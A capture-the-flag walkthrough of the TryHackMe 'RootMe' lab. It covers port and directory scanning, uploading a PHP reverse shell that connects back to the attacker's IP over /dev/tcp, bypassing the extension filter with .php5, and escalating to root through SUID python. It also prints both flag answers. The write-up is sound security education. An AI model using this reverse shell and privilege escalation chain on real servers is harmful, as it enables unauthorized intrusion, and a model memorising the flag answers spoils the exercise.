




# RootMe Walkthrough:

## Enumeration

### NMap:
	
The first thing I did was perform a port scan on the IP address of the machine, and directed the output to a file called "nmapout.txt":
	
```shell
sudo nmap -sS -vv -sV -sC -oN nmapout.txt {MACHINE_IP}
```

Showed the following ports:

```	
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
```
	
Since port 80 is open, I checked out the MACHINE_IP in the browser:
	


Pretty cool looking, but nothing of interest on the page or the source code.

### GoBuster:

Let's try enumerating the subdirectories of this site, and see if we find anything interesting.

I used Gobuster, here is the code I ran:

```shell	
gobuster -e -u {MACHINE_IP} -w dir_wordlist.txt -x .php,.txt,.js,.html
```

The scan returned the following:

```	
http://{MACHINE_IP}/index.php 
http://{MACHINE_IP}/uploads 
http://{MACHINE_IP}/css 
http://{MACHINE_IP}/js 
http://{MACHINE_IP}/panel 
```

## Site Exploration:

I visited the **/panel** page, and got this:
	


Now we are talking! We have some kind of an upload page. I tried uploading a simple text file to see what happens:
	


Okay, awesome! We can upload files. I'm thinking I should try to get a reverse-shell going with a file upload. I looked up some reverse shell scripts on [This site](https://highon.coffee/blog/reverse-shell-cheat-sheet/).

I ended up choosing a PHP script, since I saw that the site has an **index.php** page. Here is the script:
	
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/{THM_VPN_IP}/443 0>&1'");?>
```

A quick explanationof a few things about this script: In order for this script to work, you need to set up a NetCat listener(I will do this later). You will change the {THM_VPN_IP} to match your VPN ID on TryHackMe. You will need the NetCat listener to be listening on the same port as the script (**443**)

Anyway, I copied the script into a file called **reverseshell.php**, and then I tried to upload it, and this happened:
	


Well, that is disappointing! It doesn't allow me to upload PHP files. 

We may still be able to load the script by changing the name of the extension. PHP has a few different extensions that can be used, and if this program isn't set up to reject them, we might be able to load this script. More information about file upload bypass [here](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass)

So I renamed the file to **reverseshell.php5** and tried again:
	


It worked! Now I will set up a listener on NetCat, and then open the file.

First, here is how to set up a listener on NetCat:
	
```shell
sudo nc -nlvp 443
```

Remember, **443** is the port mentioned on the script that we uploaded earlier. The terminal now says:
	
```
Listening on 0.0.0.0 443
```
 
Now we just open the file by clicking on the **"Veja!"** at the bottom of the screen. Now when I looked back at my terminal:
	
```
www-data@rootme:/var/www/html/uploads$ 
```

## Finding the Flags:

We have a shell!

Now, let's see if I can find the **user.txt** file:
	
```shell
find / -type f -name 'user.txt' 2>/dev/null

/var/www/user.txt
```

There it is! Let's see what it says:
	
```
THM{y0u_g0t_a_sh3ll}
```

That's our User Flag. Let's see if we can do a privelege escalation.

## Privelege Escalation:

In order to find a privelege escalation vector, I did a search for all files in the system that have the **SUID** bit set. This means that the given program will be run with the owner priveleges when it is ran. These files with the **SUID** bit set can be quite dangerous, because they can be run with elevated priveleges.

Here is the command I ran to find the **SUID** files:
	
```
find / -type f -perm /4000 2>/dev/null
```

Received the following(the output was much larger than this, I cut out most of it to focus on the interesting part):
	
```
...
/usr/bin/chsh
/usr/bin/python <-- this one is interesting!
/usr/bin/at
/usr/bin/chfn
...
```

The **python** binary caught my attention. I looked up an exploit on [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid)

I changed to the **/usr/bin/** directory, and ran the following:
	
```
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
root
```

Now I am root! Now just find the **root.txt** file:
	
```
find / -type f -name 'root.txt' 2>/dev/null
/root/root.txt
```

Here are the contents of **root.txt**:
	
```
THM{pr1v1l3g3_3sc4l4t10n}
```

...And we are done! I hope you enjoyed and found this helpful!
